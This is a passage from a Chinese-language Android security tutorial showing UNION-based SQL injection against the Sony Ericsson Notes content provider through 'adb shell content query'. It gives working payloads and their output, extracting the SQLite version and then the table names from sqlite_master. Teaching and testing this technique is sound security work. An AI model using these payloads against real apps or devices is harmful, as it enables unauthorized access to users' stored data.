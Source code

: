 ```

我们已将编号`5`替换为`sqlite_version()`。事实上，您可以替换任何数字，因为所有数字都会被回显。

运行上一个命令将显示 SQLite 版本信息，如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=3.7.11, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

正如您在之前的摘录中所看到的，3.7.11 是安装的 SQLite 版本。

### 查表名

为了检索表名，我们可以修改前面的查询，将`sqlite_version()`替换为`tbl_name`。另外，我们需要从`sqlite_master`数据库中查询表名。`sqlite_master`与`MySQL`数据库中的`information_schema`类似。它保存数据库的元数据和结构。

修改后的查询如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master-- ("

```

这将为我们提供如下输出所示的表名：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=accounts, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=android_metadata, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 2 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=notes, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 3 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$
